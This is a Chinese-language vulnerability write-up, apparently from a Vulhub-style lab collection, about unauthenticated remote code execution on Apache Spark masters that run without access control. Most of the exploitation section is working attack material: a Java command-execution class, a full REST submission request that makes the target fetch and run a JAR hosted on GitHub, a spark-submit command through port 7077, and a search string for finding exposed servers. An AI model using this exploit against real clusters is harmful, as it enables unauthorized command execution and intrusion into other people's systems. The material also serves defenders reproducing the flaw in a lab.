 # Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

参考链接：

- https://weibo.com/ttarticle/p/show?id=2309404187794313453016
- https://xz.aliyun.com/t/2490

## 漏洞影响

```
Apache Spark 3.1.2, 3.2.1, 3.3.0
```

## 网络测绘

```
app="APACHE-Spark-Jobs"
```

## 环境搭建

Vulhub执行如下命令，将以standalone模式启动一个Apache Spark集群，集群里有一个master与一个slave：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到master的管理页面，访问`http://your-ip:8081`即可看到slave的管理页面。

## 漏洞利用

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

1. 利用REST API
2. 利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，如（参考链接1）：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

将其编译成JAR，放在任意一个HTTP或FTP上，如`https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`。

### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![img](images/1-16818019181141.png)

返回的包中有submissionId，然后访问`http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![img](images/2-16818019181143.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest api来提交应用；如果发现不是rest服务器，则会降级到使用submission gateway来提交应用。

查看结果的方式与前面一致。
